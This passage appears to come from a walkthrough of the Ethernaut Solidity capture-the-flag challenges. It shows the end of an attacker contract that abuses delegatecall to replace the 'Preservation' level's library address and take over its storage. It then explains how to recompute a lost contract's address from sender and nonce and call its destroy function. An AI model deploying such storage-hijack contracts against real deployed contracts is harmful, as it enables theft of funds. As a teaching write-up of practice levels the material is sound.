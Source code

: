 ```solidity
    }
}

contract PreservationAttacker {
    IPreservation public challenge;
    PreservationAttackerLib public detour;

    constructor(address challengeAddress) {
        challenge = IPreservation(challengeAddress);
        detour = new PreservationAttackerLib();
    }

    function attack() external {
      // 1. change the library address to our evil detour lib
      // this works because their LibraryContract is invoked using delegatecall
      // which executes in challenge contract's context (uses same storage)
      challenge.setFirstTime(uint256(address(detour)));

      // 2. now make challenge contract call setTime function of our detour
      challenge.setFirstTime(0);
    }
}
```

## 17. Recovery

There is a factory contract that has been called to create a new contract instance.
Someone deposited funds on this contract instance but "forgot the address".
Our goal is to find out what address the contract was deployed to and call its `destroy` function.

This challenge is very easy if we use a block explorer and investigate the transactions related to the factory contract.
Alternatively, we can recompute the contract address.
Contract addresses are fully derived from the [sender and the transaction's nonce](http://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed) as:

```solidity
// last 20 bytes of hash of rlp encoding of tx.origin and tx.nonce
keccak256(rlp(senderAddress, nonce))[12:31]
```

There is a second way to create contracts using `CREATE2` that results in a different address but this factory contract uses the standard one.
Using ethers, a call to `getContractAddress` is enough to do the above-mentioned computation.

```javascript
const recomputedContractAddress = ethers.utils.getContractAddress({
  from: challenge.address,
  nonce: BigNumber.from(`1`),
})

// call destroy on it
```
